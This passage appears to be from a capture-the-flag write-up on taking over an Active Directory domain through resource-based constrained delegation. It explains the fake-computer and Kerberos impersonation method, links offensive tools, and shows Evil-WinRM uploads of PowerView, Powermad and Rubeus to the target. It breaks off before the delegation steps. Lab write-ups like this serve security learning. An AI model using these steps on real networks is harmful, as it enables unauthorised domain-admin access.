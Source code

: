 ### Get Domain TGT

[This video](https://www.youtube.com/watch?v=RUbADHcBLKg) from
SpectorOps shows how to abuse this privilege to get full domain access,
and is worth a watch:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=RUbADHcBLKg){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

[This
Gist](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1)
also has the commands.

I'm going to abuse resource-based constrained delegation. First I'll add
a fake computer to the domain under my control. Then I can act as the DC
to request Kerberos tickets for the fake computer giving the ability to
impersonate other accounts, like Administrator. For this to work, I'll
need an authenticated user who can add machines to the domain (by
default, any user can add up to 10). This is configured in the
`ms-ds-machineaccountquota` attribute, which needs to be larger than 0.
Finally, I need write privileges over a domain joined computer (which
`GenericALL` on the DC gets me.)

#### Pull in Support Scripts / Exe

I'll need three scripts to complete this attack:

-   [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
-   [PowerMad.ps1](https://github.com/Kevin-Robertson/Powermad)
-   [Rubeus.exe](https://github.com/GhostPack/Rubeus) (pre-compiled exes
    from
    [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))

I'll upload these and import the two PowerShell scripts into my session:



    *Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
    Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1
                                                        
    Data: 1027036 bytes of 1027036 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload /opt/Powermad/Powermad.ps1
    Info: Uploading /opt/Powermad/Powermad.ps1 to C:\programdata\Powermad.ps1

    Data: 180780 bytes of 180780 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe
    Info: Uploading /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe to C:\programdata\Rubeus.exe
                                                                 